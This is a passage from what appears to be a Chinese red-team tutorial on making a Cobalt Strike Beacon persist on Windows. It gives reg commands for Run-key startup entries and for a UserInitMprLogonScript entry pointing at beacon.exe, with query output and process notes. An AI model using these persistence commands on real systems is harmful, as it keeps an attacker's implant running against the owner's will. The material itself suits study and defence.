 注销、重启登录，上线中完整性级别 Beacon。

HKLM 和 HKCU 有什么区别？HKCU 是当前用户启动项，HKLM 就是当前机器的启动项，当前任何用户登录机器后都会自动启动 Beacon。但操作 HKLM 需要高完整性级别。尝试使用 root 登录，没有执行 beacon.exe。

清除注册表启动项。

```plaintext
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v OPENVPN-CLI /f
```

#### 2.3.2 Logon Script

使用普通用户权限，对用户坏境变量注册表 HKCU\\Environment 项，创建字符串 UserInitMprLogonScript，值为 bat 批处理脚本或可执行文件绝对路径。

```plaintext
PS C:\Users\123> reg add "HKCU\Environment" /v UserInitMprLogonScript /d "C:\Users\123\AppData\Roaming\beacon.exe"
PS C:\Users\123> reg query HKCU\Environment /v UserInitMprLogonScript

HKEY_CURRENT_USER\Environment
    UserInitMprLogonScript    REG_SZ    C:\Users\123\AppData\Roaming\beacon.exe
```

登陆时执行会自动执行上线，得到中完整性 Beacon。

刚开始 beacon.exe 还是由父进程 userinit.exe 启动。

![Logon Script 进程运行状态 -1.png](assets/1698895515-10d11ee0f836544dcfd8369af7bd73a8.png)

等待一会儿 userinit.exe 自动退出，beacon.exe 父进程消失，很是奇怪。

![Logon Script 进程运行状态 -2.png](assets/1698895515-4d51aa8a243b8f1a2c2b95948f35d960.png)
